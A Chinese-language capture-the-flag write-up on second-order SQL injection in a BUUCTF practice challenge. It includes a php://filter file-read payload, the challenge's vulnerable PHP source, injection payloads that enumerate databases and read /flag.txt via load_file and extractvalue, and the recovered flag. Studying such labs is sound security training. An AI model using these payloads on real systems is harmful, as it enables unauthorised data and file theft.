




# 二次注入
二次注入是一直绕过输入点防御的方法。
通常开发人员会在用户的输入点进行关键字过滤，防止注入攻击。
我们输出的数据插入数据数据库时会被还原并存储到数据库中。
而当web程序再次调用存储在数据库中的数据时，犹豫没有经过过滤，所以就会导致二次注入。
执行插入的恶意sql语句
## 方法
- 插入恶意数据
- 引用恶意数据
## 靶场地址
[地址](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day1%20Web5]CyberPunk)

## 关键文件


发现有file参数，因此使用

```
?file=php://filter/read=convert.base64-encode/resource=search.php
```

获取对应文件

**change.php**

```
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单"
```

进行代码审计

发现对`user_name`和`phone`进行了方sql注入

发现

```
`old_address`='".$row['address']."'
```

这里没有过滤。

因为使用的是update语句

下面是查询语句

search.php

```
<?php
#search.php
require_once "config.php"; 

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        if(!$row) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "<p>姓名:".$row['user_name']."</p><p>, 电话:".$row['phone']."</p><p>, 地址:".$row['address']."</p>";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?
```

根据username和phone查询


```
$sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
```

查询出user_name,phone，address，

可以添加address

## 获取当前数据库

```
',`address`=database()#
```

代码先注入到数据库中，查询的时候，其作用


## 获取所有数据库

```
',`address`=(select group_concat(schema_name) from information_schema.schemata)#
```


## 获取数据库的表

```
',`address`=(select group_concat(table_name) from information_schema.tables where table_schema='ctftraining')#
```


发现表flag_table

## 获取列

```
',`address`=(select group_concat(column_name) from information_schema.columns where table_name='FLAG_TABLE')#
```


## 查询数据


```
',`address`=(select FLAG_COLUMN from ctftraining.FLAG_TABLE)#
```

发现数据是空的



经过提示，发现在文件中，因此

```
',`address`=(select(load_file("/flag.txt")))#
```



## 报错注入

```
' where user_id=extractvalue(1,concat(0x5c,(select substr(load_file('/flag.txt'),1,20))))#
```

```
' where user_id=extractvalue(1,concat(0x5c,(select substr(load_file('/flag.txt'),20,50))))#
```





因此，结果是

flag{0fb76701-6615-4ce4-9b57-9a9c8d0ca526}

**二次注入，先把漏洞数据放到数据库中，然后第二次获取sql语句的时候，出现漏洞。**


